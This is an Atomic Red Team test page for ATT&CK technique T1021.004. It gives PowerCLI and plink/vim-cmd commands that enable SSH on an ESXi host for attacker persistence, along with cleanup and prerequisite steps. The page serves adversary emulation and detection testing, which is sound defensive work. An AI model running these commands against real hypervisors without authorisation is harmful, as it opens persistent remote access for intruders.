 # T1021.004 - Remote Services: SSH
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1021/004)
<blockquote>Adversaries may use [Valid Accounts](https://attack.mitre.org/techniques/T1078) to log into remote machines using Secure Shell (SSH). The adversary may then perform actions as the logged-on user.

SSH is a protocol that allows authorized users to open remote shells on other computers. Many Linux and macOS versions come with SSH installed by default, although typically disabled until the user enables it. The SSH server can be configured to use standard password authentication or public-private keypairs in lieu of or in addition to a password. In this authentication scenario, the user’s public key must be in a special file on the computer running the server that lists which keypairs are allowed to login as that user.</blockquote>

## Atomic Tests

- [Atomic Test #1 - ESXi - Enable SSH via PowerCLI](#atomic-test-1---esxi---enable-ssh-via-powercli)

- [Atomic Test #2 - ESXi - Enable SSH via VIM-CMD](#atomic-test-2---esxi---enable-ssh-via-vim-cmd)


<br/>

## Atomic Test #1 - ESXi - Enable SSH via PowerCLI
An adversary enables the SSH service on a ESXi host to maintain persistent access to the host and to carryout subsequent operations.

**Supported Platforms:** Windows


**auto_generated_guid:** 8f6c14d1-f13d-4616-b7fc-98cc69fe56ec





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| vm_host | Specify the host name of the ESXi Server | string | atomic.local|
| vm_user | Specify the privilege user account on ESXi Server | string | root|
| vm_pass | Specify the privilege user password on ESXi Server | string | pass|


#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
Set-PowerCLIConfiguration -InvalidCertificateAction Ignore -ParticipateInCEIP:$false -Confirm:$false 
Connect-VIServer -Server #{vm_host} -User #{vm_user} -Password #{vm_pass}
Get-VMHostService -VMHost #{vm_host} | Where-Object {$_.Key -eq "TSM-SSH" } | Start-VMHostService -Confirm:$false
```

#### Cleanup Commands:
```powershell
Set-PowerCLIConfiguration -InvalidCertificateAction Ignore -ParticipateInCEIP:$false -Confirm:$false 
Connect-VIServer -Server #{vm_host} -User #{vm_user} -Password #{vm_pass}
Get-VMHostService -VMHost #{vm_host} | Where-Object {$_.Key -eq "TSM-SSH" } | Stop-VMHostService -Confirm:$false
```



#### Dependencies:  Run with `powershell`!
##### Description: Check if VMWARE PowerCLI PowerShell Module is installed.
##### Check Prereq Commands:
```powershell
$RequiredModule = Get-Module -Name VMware.PowerCLI -ListAvailable
if (-not $RequiredModule) {exit 1}
```
##### Get Prereq Commands:
```powershell
Install-Module -Name VMware.PowerCLI
```




<br/>
<br/>

## Atomic Test #2 - ESXi - Enable SSH via VIM-CMD
An adversary enables SSH on an ESXi host to maintain persistence and creeate another command execution interface.
[Reference](https://lolesxi-project.github.io/LOLESXi/lolesxi/Binaries/vim-cmd/#enable%20service)

**Supported Platforms:** Windows


**auto_generated_guid:** 280812c8-4dae-43e9-a74e-1d08ab997c0e





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| vm_host | Specify the host name or IP of the ESXi server. | string | atomic.local|
| vm_user | Specify the privilege user account on the ESXi server. | string | root|
| vm_pass | Specify the privileged user's password. | string | password|
| plink_file | Path to Plink | path | PathToAtomicsFolder&#92;..&#92;ExternalPayloads&#92;plink.exe|


#### Attack Commands: Run with `command_prompt`! 


```cmd
echo "" | "#{plink_file}" -batch "#{vm_host}" -ssh -l #{vm_user} -pw "#{vm_pass}" "vim-cmd hostsvc/enable_ssh"
```

#### Cleanup Commands:
```cmd
echo "" | "#{plink_file}" -batch "#{vm_host}" -ssh -l #{vm_user} -pw "#{vm_pass}" "vim-cmd hostsvc/disable_ssh"
```



#### Dependencies:  Run with `powershell`!
##### Description: Check if we have plink
##### Check Prereq Commands:
```powershell
if (Test-Path "#{plink_file}") {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory "PathToAtomicsFolder\..\ExternalPayloads\" -ErrorAction Ignore -Force | Out-Null
Invoke-WebRequest "https://the.earth.li/~sgtatham/putty/latest/w64/plink.exe" -OutFile "#{plink_file}"
```




<br/>
